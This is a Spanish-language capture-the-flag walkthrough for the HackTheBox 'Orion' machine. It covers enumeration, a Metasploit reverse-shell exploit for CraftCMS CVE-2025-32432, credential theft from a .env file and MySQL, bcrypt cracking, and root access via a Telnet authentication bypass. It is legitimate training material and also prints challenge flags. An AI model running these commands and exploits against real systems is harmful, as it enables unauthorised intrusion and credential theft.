









# Orion HackTheBox (Easy)

# Contexto de la maquina
## Trayectoria Orion

<figure><figcaption></figcaption></figure>

## Descripción

**Orion** es una máquina Linux de dificultad **Easy** centrada en la explotación de un CMS web moderno y servicios internos mal configurados. La cadena de compromiso combina la identificación de la versión de **CraftCMS 5.6.16**, la explotación de una vulnerabilidad de ejecución remota de código preautenticada (**CVE-2025-32432**), extracción de credenciales desde el archivo de configuración del entorno y la base de datos MySQL, crackeo de un hash bcrypt, y finalmente escalada a `root` mediante una vulnerabilidad en el servicio **Telnet** interno que permite conexión sin autenticación.

**Objetivo**

- Explotar CraftCMS 5.6.16 para obtener RCE como `www-data`.
- Extraer credenciales de MySQL desde el archivo `.env` de CraftCMS.
- Obtener el hash bcrypt del usuario `adam` desde la base de datos y crackearlo.
- Acceder por SSH como `adam` y escalar a `root` explotando el servicio Telnet interno.

**Tipo de máquina**

- Plataforma: Hack The Box
- Sistema operativo: Linux
- Categoría principal: Web
- Componentes involucrados:
    - CraftCMS 5.6.16 con RCE preautenticado.
    - Extracción de credenciales desde `.env`.
    - MariaDB / MySQL con usuario `root` sin restricciones de red.
    - Crackeo de hash bcrypt con John the Ripper.
    - Servicio Telnet interno sin autenticación (CVE-2026-24061).

**Habilidades y técnicas evaluadas**

- Enumeración de directorios con Gobuster.
- Identificación de versiones de CMS.
- Explotación de RCE preautenticado en CraftCMS (CVE-2025-32432) con Metasploit.
- Extracción de credenciales desde archivos de configuración de entorno (`.env`).
- Conexión y enumeración de bases de datos MySQL/MariaDB.
- Extracción de hashes desde tablas de usuarios.
- Crackeo de hashes bcrypt con John the Ripper.
- Acceso SSH con credenciales comprometidas.
- Identificación de servicios internos con `ss`.
- Explotación de Telnet sin autenticación para escalada a `root`.
## Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

# Escaneo de puertos

Comenzamos realizando un escaneo completo de todos los puertos TCP para identificar los servicios expuestos en la máquina objetivo. El flag `--open` nos filtra solo los puertos abiertos, `-sS` realiza un escaneo SYN (sigiloso), y `--min-rate 5000` acelera el proceso enviando al menos 5000 paquetes por segundo.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

Una vez identificados los puertos abiertos, lanzamos un segundo escaneo más detallado sobre ellos para obtener las versiones exactas de los servicios y ejecutar los scripts de detección por defecto de Nmap (`-sCV`).

```shell
nmap -sCV -p<PORTS> <IP>
```

Resultado:

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-09 12:53 +0000
Nmap scan report for 10.129.64.99
Host is up (0.031s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://orion.htb/

Nmap done: 1 IP address (1 host up) scanned in 8.25 seconds
```

Solo dos puertos abiertos:

- **Puerto 22** → SSH (OpenSSH 8.9p1), de momento no explotable directamente.
- **Puerto 80** → HTTP (nginx 1.18.0), con redirección al dominio `orion.htb`.
## Añadir dominio al /etc/hosts

```bash
nano /etc/hosts

# Dentro del nano añadimos la siguiente línea:
<IP>           orion.htb
```
## Enumeración web

Accedemos al dominio:

```
URL = http://orion.htb/
```

Resultado:

<figure><figcaption></figcaption></figure>

Página aparentemente normal. Fijándonos en el pie de página identificamos que el CMS que usa es **CraftCMS**. Para poder buscar vulnerabilidades necesitamos la versión exacta, pero no aparece en la página principal. Realizamos fuzzing de directorios para encontrar más recursos.
# Gobuster
## Fuzzing de directorios

**Gobuster** en modo `dir` enumera rutas en el servidor web probando palabras de un diccionario. Los flags `-x html,php,txt` extienden la búsqueda a archivos con esas extensiones, y `-r` sigue redirecciones automáticamente:

```bash
gobuster dir -u http://orion.htb/ -w directory-list-2.3-medium.txt -x html,php,txt -t 100 -k -r
```

Resultado:

```
index.html           (Status: 200) [Size: 9689]
index.php            (Status: 200) [Size: 12272]
assets               (Status: 403) [Size: 162]
admin                (Status: 200) [Size: 40072]
```
## Acceso al panel de administración

El directorio `/admin` devuelve un `200 OK`. Accedemos:

```
URL = http://orion.htb/admin
```

Resultado:

<figure><figcaption></figcaption></figure>

Encontramos el login del panel de administración de CraftCMS. Lo más importante es que la versión del CMS aparece visible en la página: **CraftCMS 5.6.16**. Buscando vulnerabilidades para esta versión exacta encontramos el **CVE-2025-32432**, un RCE preautenticado crítico.
# Escalate user www-data

<figure><figcaption></figcaption></figure>

## CVE-2025-32432 — RCE preautenticado en CraftCMS

El **CVE-2025-32432** afecta al endpoint de transformación de imágenes de CraftCMS. Al no requerir autenticación y no sanitizar correctamente los parámetros de entrada, un atacante puede inyectar código PHP arbitrario que el servidor ejecuta con los privilegios del proceso web (`www-data`). Es una vulnerabilidad de criticidad máxima (CVSS 10.0).

El PoC de referencia está disponible en:

URL = [Exploit GitHub CVE-2025-32432](https://github.com/vulhub/vulhub/tree/master/craftcms/CVE-2025-32432)

Después de probar el PoC de Vulhub sin éxito por diferencias de entorno, usamos el módulo de **Metasploit** que implementa el mismo exploit de forma más robusta y adaptativa:
## Explotación con Metasploit

```bash
msfconsole -q
```

```bash
use linux/http/craftcms_preauth_rce_cve_2025_32432
set RHOSTS orion.htb
set LHOST <IP_ATTACKER>
set LPORT <PORT_ATTACKER>
set ForceExploit true
set AutoCheck false
exploit
```

Resultado:

```
[*] Started reverse TCP handler on 10.10.15.11:7777
[*] Injecting stub & triggering payload...
[*] Meterpreter session 1 opened (10.10.15.11:7777 -> 10.129.64.99:36094)

meterpreter > getuid
Server username: www-data
```

El exploit funciona. Tenemos sesión Meterpreter como `www-data`.
# Escalate user adam

<figure><figcaption></figcaption></figure>

## Extracción de credenciales desde el archivo .env

Los archivos `.env` (variables de entorno) son archivos de configuración que las aplicaciones web modernas usan para almacenar credenciales y parámetros sensibles separados del código. En CraftCMS se ubican en la raíz de la instalación:

```bash
cd /var/www/html/craft
cat .env
```

Resultado:

```
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=orion
CRAFT_DB_USER=root
CRAFT_DB_PASSWORD=SuperSecureCraft123Pass!
```

Tenemos credenciales de `root` para la base de datos MySQL que corre localmente en el puerto `3306`.
## Conexión a la base de datos y extracción del hash

Nos conectamos directamente a MySQL con las credenciales obtenidas:

```bash
mysql -h localhost -u root -p'SuperSecureCraft123Pass!'
```

Listamos las bases de datos y seleccionamos `orion`:

```mysql
show databases;
use orion;
show tables;
```

Entre las 66 tablas de la base de datos, la más interesante es `users`. La volcamos:

```mysql
select id, username, email, password from users;
```

Resultado:

```
+----+----------+----------------+--------------------------------------------------------------+
| id | username | email          | password                                                     |
+----+----------+----------------+--------------------------------------------------------------+
|  1 | admin    | adam@orion.htb | $2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS |
+----+----------+----------------+--------------------------------------------------------------+
```

El usuario administrador de CraftCMS (`admin`) usa el email `adam@orion.htb`, lo que sugiere que `adam` es también un usuario del sistema. El hash `$2y$13$` es **bcrypt** con factor de coste 13 (muy lento de crackear, pero no imposible con un buen diccionario).
## Crackeo del hash bcrypt con John the Ripper

<figure><figcaption></figcaption></figure>

Guardamos el hash en un archivo con el formato que espera John:

> hash

```
adam:$2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS
```

```bash
john hash --wordlist=<WORDLIST> --format=bcrypt
```

Resultado:

```
darkangel        (adam)
1g 0:00:00:37 DONE (2026-07-09 13:41)
Session completed.
```

La contraseña de `adam` es `darkangel`.
## SSH (adam)

Probamos las credenciales directamente por SSH, ya que el usuario `adam` existe también en el sistema operativo:

```bash
ssh adam@<IP>
# Contraseña: darkangel
```

Resultado:

```
adam@orion:~$ whoami
adam
```

Funciona. Leemos la flag del usuario:

> user.txt

```
effea61f7da8df12790a7b4c2d47f6b6
```
# Escalate Privileges

<figure><figcaption></figcaption></figure>

## Enumeración de servicios internos

Listamos todos los puertos en escucha para detectar servicios accesibles únicamente desde `localhost`:

```bash
ss -tuln
```

Resultado:

```
tcp   LISTEN   0   10    127.0.0.1:23     0.0.0.0:*
tcp   LISTEN   0   80    127.0.0.1:3306   0.0.0.0:*
tcp   LISTEN   0   511   0.0.0.0:80       0.0.0.0:*
tcp   LISTEN   0   128   0.0.0.0:22       0.0.0.0:*
```

Además de MySQL (`3306`), hay un servicio en el **puerto 23** accesible solo desde `localhost`. El puerto `23` es el estándar de **Telnet**, un protocolo de acceso remoto a terminales que precede a SSH y transmite todo sin cifrado. Telnet es intrínsecamente inseguro y muy raramente presente en sistemas modernos, lo que lo convierte en un vector de ataque llamativo.
## Identificación de la versión de Telnet

```bash
telnet --version
```

Resultado:

```
telnet (GNU inetutils) 2.7
```

La versión instalada es **GNU inetutils 2.7**. Buscando vulnerabilidades para esta versión encontramos el **CVE-2026-24061**, que permite conectarse al servidor Telnet como `root` sin necesidad de contraseña, obteniendo una shell privilegiada directamente.
## CVE-2026-24061 — Telnet sin autenticación

El PoC del CVE está disponible en:

URL = [Exploit GitHub CVE-2026-24061](https://github.com/X-croot/CVE-2026-24061_POC)

Copiamos el contenido del `script.sh` a la máquina víctima y lo ejecutamos:

```bash
cd /tmp
nano script.sh
# Pegamos el contenido del script
chmod +x script.sh
bash script.sh -ip 127.0.0.1 -u root -p 23
```

Resultado:

```
[*] Checking telnet installation...
[+] Telnet is installed
[*] Connecting...
[*] IP: 127.0.0.1 | Port: 23 | User: root

Connected to 127.0.0.1.
Escape character is '^]'.

Linux 5.15.0-177-generic (orion) (pts/2)

Welcome to Ubuntu 22.04.5 LTS...

root@orion:~# whoami
root
```

El exploit conecta al servidor Telnet interno y nos otorga directamente una shell de `root` sin solicitar ninguna contraseña. Leemos la flag final:

> root.txt

```
2c09b258208582bdd54af575a580f50f
```

